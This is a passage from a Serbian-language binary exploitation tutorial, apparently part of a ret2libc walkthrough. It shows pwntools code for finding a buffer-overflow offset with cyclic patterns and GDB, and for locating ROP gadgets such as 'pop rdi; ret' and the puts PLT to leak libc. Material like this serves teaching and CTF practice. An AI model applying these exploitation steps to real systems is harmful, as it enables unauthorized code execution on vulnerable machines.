 ## 1- Pronalaženje ofseta

Šablonu je potreban ofset pre nego što nastavimo sa eksploatacijom. Ako nije pružen, izvršiće se potreban kod za njegovo pronalaženje (podrazumevano `OFFSET = ""`):

```bash
###################
### Find offset ###
###################
OFFSET = ""#"A"*72
if OFFSET == "":
gdb.attach(p.pid, "c") #Attach and continue
payload = cyclic(1000)
print(r.clean())
r.sendline(payload)
#x/wx $rsp -- Search for bytes that crashed the application
#cyclic_find(0x6161616b) # Find the offset of those bytes
return
```

**Izvršite** `python template.py` otvoriće se GDB konzola sa programom koji je pao. Unutar te **GDB konzole** izvršite `x/wx $rsp` da biste dobili **bajtove** koji će prepisati RIP. Na kraju dobijte **ofset** koristeći **python** konzolu:

```python
from pwn import *
cyclic_find(0x6161616b)
```

![](<../../../../../.gitbook/assets/image (140).png>)

Nakon što pronađete offset (u ovom slučaju 40), promenite promenljivu OFFSET unutar predloška koristeći tu vrednost.\
`OFFSET = "A" * 40`

Drugi način bio bi korišćenje: `pattern create 1000` -- _izvršiti do ret_ -- `pattern seach $rsp` iz GEF.

## 2- Pronalaženje Gadžeta

Sada trebamo pronaći ROP gadžete unutar binarnog fajla. Ovi ROP gadžeti će biti korisni za pozivanje `puts` kako bismo pronašli **libc** koji se koristi, a kasnije i za **pokretanje konačnog napada**.

```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```
